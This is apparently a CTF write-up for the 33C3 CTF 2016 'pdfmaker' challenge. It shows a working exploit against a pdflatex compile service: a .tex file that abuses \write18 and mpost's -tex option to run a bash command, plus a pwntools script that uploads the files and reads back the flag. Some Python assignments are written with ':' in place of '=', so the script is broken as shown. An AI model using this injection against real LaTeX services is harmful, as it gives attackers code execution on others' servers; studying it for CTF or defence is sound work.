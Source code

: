 ```yaml
---
type: ctf
title : 33C3 CTF 2016 - pdfmaker
tags: [33C3 CTF, pdfmaker]
date : 2016-12-29
author: Eno Leriand
featuredImage: https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRZdOkBR-WeQBL8Yi2zqZv0E7BlKhSsl0c-8fWhpDilwmq3G2ZfNWcXAgesT-dINcnftiw&usqp=CAU
---
```


**Category:** Misc
**Points:** 75

>Just a tiny [application](https://gist.github.com/bruce30262/80b089e24d3a34862fe78892c63d8dcf), that lets the user write some files and compile them with pdflatex. 
>What can possibly go wrong?
>nc 78.46.224.91 24242

<!-- more -->  

So this is a service that allow us to create, show & compile some files.
* `create`: Create a file. Valid file format are: `.log`, `.tex`, `.mb`, `.sty` & `.bib`
* `show`: Show the file content.
* `compile`: Compile a file with the `pdflatex` command.

We started by googling the key word **"pdflatex exploit"**, then teammate **mike** found a useful link: [Pwning coworkers thanks to LaTeX](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/)

Basically we just need to follow the method mentioned in the post:
1. Create a `.mp` file
2. Create a `.tex` file with the malicious content. Here we change the command to `(cat${IFS}$(ls|grep${IFS}33C3))>qqq.log`, which will later store the flag content into `qqq.log`
3. Compile the `.tex` file. This will cause `pdflatext` execute our command
4. Show the `qqq.log` file and get the flag

Here's our final exploit:

```txt sss.mp
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
```

```txt aaa.tex
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}$(ls|grep${IFS}33C3))>qqq.log" "sss.mp"}
\end{document}
```

```python exp.py
from pwn import *

r : remote("78.46.224.91", 24242)

log.info("creating sss.mp...")
r.sendlineafter(">", "create mp sss")
r.recvline()
f : open("sss.mp", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

log.info("creating aaa.tex...")
r.sendlineafter(">", "create tex aaa")
r.recvline()
f : open("aaa.tex", "r")
for line in f:
    r.sendline(line.strip())
r.sendline("\q")
f.close()

r.sendlineafter(">", "compile aaa")
r.sendlineafter(">", "show log qqq")

r.interactive()
```

**Don't take LaTEX files from strangers!!**

flag: `33C3_pdflatex_1s_t0t4lly_s3cur3!`

